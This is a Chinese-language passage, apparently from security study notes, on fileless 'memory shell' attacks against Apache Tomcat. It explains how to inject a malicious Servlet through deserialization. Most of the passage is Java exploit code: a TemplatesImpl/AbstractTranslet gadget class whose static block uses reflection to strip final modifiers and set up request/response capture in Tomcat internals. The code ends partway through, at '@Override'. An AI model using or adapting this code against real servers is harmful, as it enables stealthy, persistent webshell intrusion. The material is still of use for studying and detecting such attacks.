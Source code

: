 ![image.png](Tomcat 内存马无文件攻击.assets/2023_05_19_10_36_49_VtpX8qua.png)

## 反序列化注入Servlet
在[Tomcat基础内存马入门](https://www.yuque.com/da-labs/secnotes/ro4qph)中，Tomcat注入内存马中除了注入Filter，还可以注入Servlet
其中基本思路不变，只是需要获取request，然后从request中获取ServletContext，然后依次获取ApplicationContext、StandardContext，最后将servlet封装成wrapper再使用context添加ServletMapping，就可以了
### 注入普通马
```java
package com.fastjson.test;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

/**
 * @author threedr3am
 */
public class TomcatEcho extends AbstractTranslet {

    static {
        try {
            /*刚开始反序列化后执行的逻辑*/
            //修改 WRAP_SAME_OBJECT 值为 true
            Class c = Class.forName("org.apache.catalina.core.ApplicationDispatcher");
            java.lang.reflect.Field f = c.getDeclaredField("WRAP_SAME_OBJECT");
            java.lang.reflect.Field modifiersField = f.getClass().getDeclaredField("modifiers");
            modifiersField.setAccessible(true);
            modifiersField.setInt(f, f.getModifiers() & ~java.lang.reflect.Modifier.FINAL);
            f.setAccessible(true);
            if (!f.getBoolean(null)) {
                f.setBoolean(null, true);
            }

            //初始化 lastServicedRequest
            c = Class.forName("org.apache.catalina.core.ApplicationFilterChain");
            f = c.getDeclaredField("lastServicedRequest");
            modifiersField = f.getClass().getDeclaredField("modifiers");
            modifiersField.setAccessible(true);
            modifiersField.setInt(f, f.getModifiers() & ~java.lang.reflect.Modifier.FINAL);
            f.setAccessible(true);
            if (f.get(null) == null) {
                f.set(null, new ThreadLocal());
            }

            //初始化 lastServicedResponse
            f = c.getDeclaredField("lastServicedResponse");
            modifiersField = f.getClass().getDeclaredField("modifiers");
            modifiersField.setAccessible(true);
            modifiersField.setInt(f, f.getModifiers() & ~java.lang.reflect.Modifier.FINAL);
            f.setAccessible(true);
            if (f.get(null) == null) {
                f.set(null, new ThreadLocal());
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
```